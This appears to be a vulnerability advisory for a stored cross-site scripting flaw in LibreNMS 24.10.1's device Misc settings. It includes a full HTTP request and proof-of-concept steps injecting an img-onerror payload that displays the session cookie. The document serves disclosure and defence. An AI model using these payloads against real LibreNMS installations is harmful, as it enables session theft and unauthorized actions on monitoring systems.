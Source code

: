 # StoredXSS-LibreNMS-MiscSection


**Description:**


Stored XSS on the parameter: `ajax_form.php` -> param: state

Request:
```http
POST /ajax_form.php HTTP/1.1
Host: <your_host>
X-Requested-With: XMLHttpRequest
X-CSRF-TOKEN: <your_XSRF_token>
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: <your_cookie>

type=override-config&device_id=1&attrib=override_icmp_disable&state="><img%20src%20onerror="alert(1)"> 
```

of Librenms version 24.10.1 ([https://github.com/librenms/librenms](https://github.com/librenms/librenms)) allows remote attackers to inject malicious scripts. When a user views or interacts with the page displaying the data, the malicious script executes immediately, leading to potential unauthorized actions or data exposure.


The vulnerability in the line:
```php
$attrib_val = get_dev_attrib($device, $name);
```
within the `dynamic_override_config` function arises because the value of `$attrib_val is` retrieved from untrusted data without any sanitization or encoding (at [Line 778](https://github.com/librenms/librenms/blob/master/includes/html/functions.inc.php#L778)). 

When `dynamic_override_config` is called, the unescaped `$attrib_val` is injected directly into the HTML (at [misc.inc.php](https://github.com/librenms/librenms/blob/master/includes/html/pages/device/edit/misc.inc.php)).


**Proof of Concept:**
1. Add a new device through the LibreNMS interface.
2. Edit the newly created device and select the Misc section.
3. In any of the following fields: "Override default ssh port", "Override default telnet port", "Override default http port" or "Unix agent port", enter the payload: `"><img src onerror="alert(document.cookie)">`.
4. Save the changes.
5. Observe that when the page loads, the XSS payload executes, triggering a popup that displays the current cookies.



![image](https://github.com/user-attachments/assets/097d17cb-7a6c-4924-add8-f867df643025)
![image](https://github.com/user-attachments/assets/8213d55a-d87a-4a6e-94bf-092877398da5)


**Impact:**

Execution of Malicious Code
